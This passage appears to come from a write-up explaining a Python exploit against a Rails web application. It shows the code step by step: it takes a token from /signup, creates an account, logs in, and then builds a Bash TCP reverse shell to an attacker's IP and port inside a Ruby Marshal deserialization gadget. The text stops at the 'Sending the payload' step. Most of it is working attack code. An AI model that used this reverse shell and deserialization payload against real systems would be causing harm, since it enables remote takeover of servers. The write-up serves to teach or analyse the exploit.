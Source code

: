 This piece of the exploit establishes a session over port 8080 of the IP address specified in the arguments and searches for a token in the response of the request made to /signup.

- __Creating a user account__

```python
data = {}
data['utf8'] = 'â'
data['authenticity_token'] = token
data['user[username]'] = username
data['user[email]'] = email
data['user[password]'] = password
data['commit'] = 'Create User'
resp = s.post(URL + '/users', data=data)
```

It stores user acount data in variables and sends a POST request to /users with the data to create an account.

- __Logging into the account__

```python
data = {}
data['utf8'] = 'â'
data['authenticity_token'] = token
data['session[email]'] = email
data['session[password]'] = password
data['commit'] = 'Log in'
resp = s.post(URL + '/login', data=data)
 
rx = r'href="/users/(.*)"'
user_id = re.search(rx,resp.text).group(1)
```

This part of the exploit logs into the application using the data used for registering the account. It then stores the user id retrieved through response in a variable.

- __Reverse Shell__

```python
rev = "bash -c 'bash -i >& /dev/tcp/{}/{} 0>&1'".format(sys.argv[2], sys.argv[3])
payload = '\x04\x08o\x3A\x40ActiveSupport\x3A\x3ADeprecation\x3A\x3ADeprecatedInstanceVariableProxy'
payload += '\x09\x3A\x0E\x40instanceo\x3A\x08ERB\x08\x3A\x09\x40srcI\x22'
payload += '{}\x60{}\x60'.format(chr(len(rev)+7), rev)
payload += '\x06\x3A\x06ET\x3A\x0E\x40filenameI\x22\x061\x06\x3B\x09T\x3A\x0C\x40linenoi\x06\x3A\x0C\x40method\x3A'
payload += '\x0Bresult\x3A\x09\x40varI\x22\x0C\x40result\x06\x3B\x09T\x3A\x10\x40deprecatorIu\x3A\x1F'
payload += 'ActiveSupport\x3A\x3ADeprecation\x00\x06\x3B\x09T'
```

It has the Bash TCP reverse shell command which takes in attacker IP and port from the script arguments and creates a marshalled object with the reverse shell payload which will further be deserialized on the victim machine.

- __Sending the payload__
